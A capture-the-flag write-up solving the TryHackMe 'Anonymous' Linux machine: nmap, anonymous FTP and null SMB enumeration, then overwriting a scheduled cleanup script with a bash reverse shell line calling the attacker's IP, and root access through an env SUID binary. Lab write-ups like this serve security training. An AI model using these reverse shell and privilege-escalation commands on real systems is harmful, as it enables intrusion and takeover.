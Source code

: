 ```yaml
---
title: "Tryhackme Anonymous Write-up"
date: 2021-02-15 16.40 
categories: [Tryhackme, Linux]
tags: [ftp, suid, privesc]
author: CEngover
image: /assets/img/posts/anonymous/anonymous.png
---
```


Hello, in this article we're going to solve `Anonymous` which is linux based machine from [Tryhackme](https://tryhackme.com/). Let's describe solution steps first and then get into the solution.

### Reconnaissance

- Nmap scanning
- FTP enumeration
- SMB enumeration

### Exploitation

- Writing to a writeable ftp file 
- Getting reverse shell

## Privilege Escalation

- Finding SUID Binaries
- Abuse of env SUID bit

## Reconnaissance

### Nmap Scanning

Let's start with nmap scanning as described above.

> sudo nmap -sC -sV -oA nmap/anonymous-open-ports 10.10.25.138

Once we running nmap by given command, we get a result like the following.

```bash
# Nmap 7.80 scan initiated Mon Feb 15 09:12:05 2021 as: nmap -sC -sV -oA nmap/anonymous-ports -v -Pn 10.10.25.138
Increasing send delay for 10.10.25.138 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.25.138
Host is up (0.077s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.17.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-02-15T14:13:41+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-15T14:13:41
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 15 09:13:43 2021 -- 1 IP address (1 host up) scanned in 97.41 seconds

```

### FTP Enumeration

According to the result of nmap, we have 4 open ports. FTP is running on port 21, SSH is running on port 22 and SMB is running on port 139,445. We can notice that FTP anonymous login is allowed from nmap result. If we try to log in ftp server with anonymous and anonymous credentials, we'll get a successfull login. 

![FTP Login](/assets/img/posts/anonymous/ftp_login.png)

We see that there is a directory called scripts and this directory has 3 different file. The contents of the files are as follows.

`cleans.sh`
```bash
#!/bin/bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log`
```bash
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

`to_do.txt`
```bash
I really need to disable the anonymous login...it's really not safe
```

As can be seen from the picture, we have write and execute privileges on clean.sh.

### SMB Enumeration

We can use the smbclient tool to list shared folders in SMB. 

> smbclient -L \\\\10.10.25.138\\

After running the command we see that there is shared folder named `pics`. We can log in to the smb server with the use of null authentication in SMB. 

> smbclient \\\\10.10.25.138\\pics -U ''

When we log in to smb, we see that there are 2 dog pictures.

![Dog 1](/assets/img/posts/anonymous/corgo2.jpg)
![Dog 2](/assets/img/posts/anonymous/puppos.jpeg)

`When I saw these pictures, thought that there could be steganography stuff but I had wrong.`

## Exploitation

Since there is no other service back to gather information, our next process will be exploitation. Now, we've only cleans.sh which is a scheduled task.

### Writing to clean.sh file

It runs for about 1-2 minutes and is written to remove_files.log file. If we put our malicious code into clean.sh, we can access to the system. Our code will be like this;

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.9.17.122/1337 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### Getting Reverse Shell

![Clean bash file](/assets/img/posts/anonymous/ftp_clean.png)

We replace the clean.sh file with ours. When clean.sh file run again, our code will be run and we get a shell.

![Getting Shell](/assets/img/posts/anonymous/shell.png)

## Privilege Escalation

Now, we need more privileges. `I checked that if there is an any command that we can run with sudo rights but there's nothing.` 

### Abuse of env SUID bit

![Linpeas](/assets/img/posts/anonymous/linpeas.png)

My next step was to check the SUID bits and there is an interesting SUID bit which is `env`.

if we use this SUID bit like this;

> env /bin/sh -p

![Becoming Root](/assets/img/posts/anonymous/root.png)

We escalate our privilege to root.